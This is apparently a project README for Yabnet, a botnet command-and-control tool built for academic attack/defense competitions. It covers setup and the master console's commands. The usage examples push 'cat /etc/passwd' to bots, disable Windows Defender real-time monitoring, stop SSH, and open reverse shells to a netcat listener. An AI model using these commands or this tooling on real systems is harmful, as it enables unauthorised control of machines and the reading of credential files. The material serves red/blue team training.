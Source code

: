 # Yabnet
Yet Another Botnet, PoC created for educational purposes only.
Yabnet is a HTTP based C2 server and agent that was designed, created, and intended to be used in an academic Attack/Defense competition environment. 

Yabnet server is written in Python3++ Flask, deployed in docker. Yabnet agent is written in Golang.

From setting up the server, freezing the agent, and distributing the agent to the target machine, yabnet aims to work out-of-the-box. That way, the red teamers could focus on more important stuffs, such as persistence. 

## Dear Blueteamers

Yeah, you, who is stalking red teamers' repos (you should btw. Go make a script). I make all of my tools public because I believe that blue teamers learning is more important than my implants getting caught during competitions. As long as you are learning how to detect my tools, prevent them, and delete them, I'll be very happy. Please focus on learning, rather than winning competitions! (ofc win them as well) 

## Disclaimer
Yabnet is a proof of concept tool which was only created for educational purposes in classroom and cybersecurity related competitions. This tool is not created, nor is good enough for any real world usage. I do not condone use of this tool anything other than educational purposes. Using any of the files of yabnet in/against a system that you do not own is illegal, and you will get caught.

-----------

## Under Construction - TODO 

**Yabnet is currently under construction.**
- [x] Dockerize server 
- [x] Create agent in `golang`, instead of using python 
- [x] Support windows for agent 
- [x] Clean up debugging codes in all files 
- [x] Enhance golang agent & generation of golang 
- [x] Enhance README documentation and usage
- [x] Add upload feature from master to server 
- [ ] Finalize and structure all in-code comments  
- [x] Support communicating with PWNBOARD 

-----------

## Installation 

**Yabnet requires python3, GOLANG, curl and docker**

**Due to laziness, yabnet currently requires to be installed in the /opt directory.**

### Server configuration & setup
**Edit `Prodconfig` in `/yabnet/server/config.py` first.**
```
cd /opt/yabnet/server

docker build -t yabnet .
docker run -p <ip>:<port>:<port> yabnet

```

### Master setup

Use the credential that was configured in `/yabnet/server/config.py` file.

```
cd /yabnet/master
pip3 install -r requirements.txt 

python3 master.py
Yabnet>> login -r localhost -u <user> -p <password>
Yabnet>> help
``` 


### Agent setup - Golang 

**Generating Agent through master console**
```
Yabnet>> generate -i <serverip> -p <serverport>
Yabnet>> generate -i 192.168.204.153 -p 5000 -w   // -w is for Windows
```


## Components 

**Server and Agent**

Server = Python flask application inside Docker container 

Agent = Golang based static executable 

Master = Python console application for interacting with the server 

**Utility scripts** - In Progress 

`/yabnet/agent/competition_deployer.py` = Python script which helps to distribute and drops agent file to specific range of IP addresses via SSH


## Operation 

The master console has various commands that can be used for controlling the bots. 

**All commands have `-h` help flag**

| Command | Description | Examples | 
| --- | --- | --- |
| login | Login to the server as a master | `login -r 10.0.0.1:443 -u admin -p password` | 
| generate | Compile and generate golang agent binary. Supports x64 of linux, windows | `generate -i 10.0.0.1 -p 443` | 
| list | List all currently registered bots | `list` |
| push | Push a command to bot(s) | `push -t botid,botid -c "cat /etc/passwd"` | 
| upload | Upload local file to yabnet server's upload folder | `upload -f <local_file_location>` 
| download | Command a bot to download a file from the server | `download -t <botid> -f test.txt -d c:\users\administrator\a.txt` | 
| reverse | Command a bot to start a reverse shell back to server | `reverse -t <botid> -p <server_listening_port>` | 
| broadcast | Push a command to entire bots (Not Recommended) | `broadcast -c "systemctl stop ssh"` | 
| cleanup | Remove all staged commands for all bots | `cleanup` | 
| pwnboard | Start pwnboard auto-update thread | `pwnboard --start -u http://[server]:[port]/generic`
| help, ? | List all possible commands | `help` | 

**Notes** 
1. Specifying multiple targets with `,` comma separator is possible. 

`ex) push -t 1,2,3,4 -c "systemctl stop apache2"`

`ex) push -t 5,6,7 -c "powershell -c set-mppreference -disablerealtimemonitoring $true"` 


2. Reverse shell command requires the master to open a new console and setup a netcat listener. 

`ex) reverse -t 11 -p 31337` 

`ex) nc -lvnp 31337         // And then wait for the reverse shell from 10.0.3.4` 

3. The server is hosting files in `<somewhere>/yabnet/server/uploads/` directory.

4. All commands have `-h` help flag available.

## Demo
<insert youtubelink here>

## Special Thanks 
[NotoriousRebel](https://github.com/NotoriousRebel) - "Every red teamer should create their own C2"
